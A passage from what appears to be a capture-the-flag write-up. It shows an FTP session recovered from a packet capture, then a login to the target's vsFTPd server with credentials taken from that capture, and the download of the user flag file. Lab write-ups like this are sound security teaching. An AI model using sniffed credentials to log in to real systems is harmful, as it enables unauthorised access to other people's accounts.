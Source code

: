 ```
LIST -al
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,196,1,212,143
200 PORT command successful. Consider using PASV.
RETR notes.txt
550 Failed to open file.
QUIT
221 Goodbye.
```

## FTP

I used the credentials found in the PCAP to connect to the FTP server. 

```bash
$ ftp nathan@target
Connected to target.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls -la
229 Entering Extended Passive Mode (|||29495|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27  2021 .
drwxr-xr-x    3 0        0            4096 May 23  2021 ..
lrwxrwxrwx    1 0        0               9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23  2021 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27  2021 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Aug 30 23:33 user.txt
226 Directory send OK.

ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||20874|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |**********************************************************************************************************************************************************************************************|    33      295.65 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (1.31 KiB/s)
```
